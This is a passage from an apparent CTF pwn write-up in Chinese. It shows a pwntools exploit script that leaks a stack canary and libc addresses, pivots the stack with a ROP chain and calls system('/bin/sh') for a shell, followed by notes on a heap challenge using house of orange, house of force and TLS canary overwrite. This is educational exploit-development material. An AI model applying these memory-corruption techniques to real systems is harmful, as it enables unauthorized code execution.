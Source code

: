 ```php
p.send(b'0'*(0xe0-8)+p64(canary)+b'c'*8+p8(0x98))
#第二次main

for i in range(231):
    p.sendline(b'123')
p.sendline(b'65')
p.recvuntil(b'A')

main=u64(p.recv(6).ljust(8,b'\x00'))-24
elf_base=main-0x128F
init=elf_base+0x1298
put_got=elf_base+elf.got['puts']
put_plt=elf_base+elf.plt['puts']
pop_rdi=elf_base+0x130b
leave=elf_base+0x124A
ret=elf_base+0x1016

init_1=elf_base+0x1250
fun=elf_base+0x1185

print(hex(put_plt))

payload=b'/bin/sh\x00'+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(main)
p.send(payload.ljust(0xe0-8,b'\x00')+p64(canary)+p64(ebp-0xf0)+p64(leave))

#获取libc
puts_addr=u64(p.recv(6).ljust(8,b'\x00'))
print(hex(puts_addr))
base = puts_addr - 0x0809c0
system=base+0x04f440

# #第三次main

for i in range(231):
    p.sendline(b'123')
# gdb.attach(p)
p.sendline(b'65')
p.recvuntil(b'A')
payload=p64(ret)+p64(ret)+p64(pop_rdi)+p64(ebp-0xd0)+p64(system)
p.send(payload.ljust(0xe0-8,b'\x00')+p64(canary)+p64(ebp-0xf0-0xd8)+p64(leave))

p.interactive()
```

pwn4 Huge\_Space
----------------

这个题和h-o-s都挺有意思的。流程非常简单。

上来先给一个溢出。

由于没有free函数，考虑到leak应该是使用orange那样的方法。而该函数存在canary，想要通过rop拿到shell，又要考虑到canary的限制，而此处没有限制malloc的大小，则采用覆盖tls的方法，控制canary，总的来说还是house\_of\_orange + force的利用。

